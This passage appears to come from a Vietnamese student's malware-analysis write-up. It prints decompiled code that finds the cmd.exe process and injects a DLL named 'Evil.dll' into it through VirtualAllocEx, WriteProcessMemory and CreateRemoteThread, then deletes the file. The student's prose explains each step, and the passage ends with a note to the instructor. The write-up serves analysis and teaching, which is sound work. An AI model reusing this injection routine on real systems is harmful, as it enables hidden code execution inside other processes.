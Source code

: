             if ( v3 == 8 )
            {
            th32ProcessID = pe.th32ProcessID;
            goto LABEL_8;
            }
        }
        }
        while ( Process32NextW(Toolhelp32Snapshot, &pe) );
    }
    CloseHandle(Toolhelp32Snapshot);
    th32ProcessID = 0;
    LABEL_8:
    RemoteThread = OpenProcess(0x43Au, 0, th32ProcessID);
    v7 = RemoteThread;
    if ( RemoteThread )
    {
        RemoteThread = VirtualAllocEx(RemoteThread, 0i64, 0x104ui64, 0x3000u, 0x40u);
        v8 = RemoteThread;
        if ( RemoteThread )
        {
        LODWORD(RemoteThread) = WriteProcessMemory(v7, RemoteThread, FileName, 0x104ui64, 0i64);
        if ( (_DWORD)RemoteThread )
        {
            RemoteThread = CreateRemoteThread(v7, 0i64, 0i64, (LPTHREAD_START_ROUTINE)LoadLibraryA, v8, 0, 0i64);
            v9 = RemoteThread;
            if ( RemoteThread )
            {
            WaitForSingleObject(RemoteThread, 0xFFFFFFFF);
            CloseHandle(v7);
            CloseHandle(v9);
            remove(FileName);
            ExitProcess(0);
            }
        }
        }
    }
    return (int)RemoteThread;
    }
    ```

    Hàm này sẽ thực hiện tạo một danh sách các tiến trình trong hệ thống, lật lượt duyệt các tiến trình rùi kiểm tra xem có tiến trình `cmd.exe` không. Nếu thấy sẽ lưu lại ID của tiến trình.

    Sau đó chương trình mở tiến trình cmd.exe với các quyền cấn thiết như đọc, ghi. Rùi cấp phát một vùng nhớ trong không gian địa chỉ của tiến trình đó. Tạo một luông từ xa để thực thi thư viện `Evil.dll`.

    Như vậy tóm tắt lại hàm `sub_7FF7BB771070()` được dùng để tiêm dll vào tiến trình `cmd`.

    `Em sẽ hoàn thành nốt bài này trong thời gian sớm nhất ạ.`
